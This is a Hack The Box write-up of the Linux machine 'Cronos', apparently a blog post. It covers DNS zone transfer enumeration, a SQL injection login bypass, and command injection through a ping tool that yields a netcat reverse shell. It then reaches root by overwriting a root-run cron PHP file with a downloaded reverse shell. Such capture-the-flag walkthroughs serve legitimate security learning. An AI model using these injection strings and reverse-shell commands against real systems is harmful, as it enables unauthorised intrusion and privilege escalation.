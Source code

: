 ```yaml
---
title: Cronos
author: fieldraccoon
date: 2020-06-27 
categories: [hack-the-box, linux]
tags: [hack-the-box, medium, dns]
math: true
---
```


# Cronos

Cronos was a medium linux box that required gaining access to a code execution site through dns searching and sql injection. This was then used to gain a shell on the system and read the user flag. Root required some enumeration to find the `/etc/crontab` file which we can abuse to gain a root shell with php.

> Skills involved in this box:

- enumeration
- privelage escalation
- dns searching using dig
- SQL 

# USER

As always we start off with an nmap scan:
```bash
kali@kali:~/boxes/cronos$ nmap -sC -sV -o nmap 10.10.10.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-27 04:51 EDT
Nmap scan report for 10.10.10.13
Host is up (0.036s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.08 seconds
```

The scan shows port 22 open on ssh even though it is not needed for this box. Port 80 fo http and port 53 open on tcp which we can use to try ad find subdomains for the host later.

We visit the page at http and find a default apache page. We quickly add `cronos.htb` to our hosts and refresh the page. We now get a normal website which doesnt seem too interesting.

We run directory brute-force tools such as gobuster but we dont find anything.

Instead we use `dig` to try and find any subdomains on `cronos.htb`:
```bash
kali@kali:~/boxes/cronos$ dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.16.3-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 20 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Jun 27 04:55:32 EDT 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
We Add all of theese to our hosts file which now looks like this: `10.10.10.13    cronos.htb www.cronos.htb ns1.cronos.htb admin.cronos.htb`

Navigating to `admin.cronos.htb` we find a login page, We try and guess common passwords but none of which work.

We then try to use SQL Injection to try and bypass the login page and it worked.

We used the username: `admin' OR 1=1 -- -` and we left the password field blank and we manage to login succesfully.

Now it shows us the title `Net Tool v0.1` and we can execute commands via the execute section where it allows us to ping an ip address.

It lets us ping an ip so we try to ping our own to see if we get a connection and it works.

we intercept the request with burpe to see whats going on.

`command=ping+-c+1&host=10.10.xx.xx`  - this is basically what it shows when executing the command, we can try edit this command to get code execution with anything such as `whoami` or `id`.

We then drop the request and go back to the page and see if we can get a reverse shell.

`10.10.xx.xx; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f`

We enter this into the command bar and setup a listener and we get a shell.

From here we can then go on to read the user flag.
```bash
kali@kali:~/boxes/cronos$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 51974
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls
ls
noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls
ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
```
# ROOT

By running linenum.sh on the system we find an interesting file on it called `/etc/crontab`.

```bash
ww-data@cronos:/home/noulis$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We can see that this file is being ran as root, lets see if we can exploit it.

We see that it is running `/var/www/laravel/artisan` as root with php meaning its a php file. Lets try and add a reverse shell to the file and see if it executes it.

```bash
kali@kali:~$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
10.10.10.13 - - [27/Jun/2020 05:12:20] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```
We setup a python server to host our rev-shell file(which is edited to include our ip and port)
```bash
www-data@cronos:/tmp$ wget 10.10.14.7:8081/php-reverse-shell.php
wget 10.10.14.7:8081/php-reverse-shell.php
--2020-06-27 12:15:48--  http://10.10.14.7:8081/php-reverse-shell.php
Connecting to 10.10.14.7:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0.003s  

2020-06-27 12:15:48 (1.63 MB/s) - 'php-reverse-shell.php' saved [5492/5492]

www-data@cronos:/tmp$

www-data@cronos:/var/www/laravel$ cp /tmp/php-reverse-shell.php artisan
cp /tmp/php-reverse-shell.php artisan
```
Now we just set up a listener on the specified port that we added in our shell file and wait for a connection.

```bash
kali@kali:~$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.13] 46434
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:18:01 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```
Thanks for reading hope you enjoyed.
